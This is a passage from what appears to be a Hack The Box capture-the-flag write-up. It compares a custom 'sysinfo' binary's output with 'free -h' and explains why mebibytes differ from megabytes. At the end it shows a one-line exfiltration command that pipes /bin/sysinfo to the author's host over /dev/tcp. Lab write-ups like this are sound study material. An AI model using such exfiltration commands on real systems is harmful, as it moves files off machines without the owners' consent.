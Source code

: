 ```text

====================MEM Usage=====================
              total        used        free      shared  buff/cache   available
Mem:           3.8G        665M        892M         10M        2.3G        2.9G
Swap:          947M          0B        947M
```

however this program seemed to be running a few other commands. I recognized the output from the last part under "Mem Usage" as from the program `free`.

```text
theseus@ubuntu:/dev/shm$ free
              total        used        free      shared  buff/cache   available
Mem:        4030648      680836      914544       10444     2435268     3049920
Swap:        969960           0      969960
```

Pretty much the same output!

```text
theseus@ubuntu:/dev/shm$ free -h
              total        used        free      shared  buff/cache   available
Mem:           3.8G        668M        888M         10M        2.3G        2.9G
Swap:          947M          0B        947M
```

while trying to get the help for the `free` program I stumbled upon the right flag to match the exact output from `sysinfo`. from the man page:

```text
-h, --human
              Show  all  output fields automatically scaled to shortest three digit unit and display
              the units of print out.  Following units are used.

                B = bytes
                Ki = kibibyte
                Mi = mebibyte
                Gi = gibibyte
                Ti = tebibyte
                Pi = pebibyte
```

These units of measurement are based on 1024 rather than 1000. Storage is created using these measurements, so it is more accurate to the physical hardware. Marketing departments like to round this number to 1000 and use the standard kilo-, mega-, and giga-, etc. because it makes the storage size seem bigger, without actually lying! This is why your "500GB" hard drive only shows 465.661287 \(or so\) in the OS. Sneaky...

hint: you can use the Bing in-search calculator to convert between the two measurements by typing `convert 500GB to gibibytes`.

I decided to exfiltrate the `sysinfo` program see how it worked. `theseus@ubuntu:/dev/shm$ cat /bin/sysinfo > /dev/tcp/10.10.15.57/8099`

![](https://github.com/zweilosec/htb-writeups/tree/170533f9dba99f709ee55644e711b316c9739dad/linux-machines/medium/ghidra_pic)
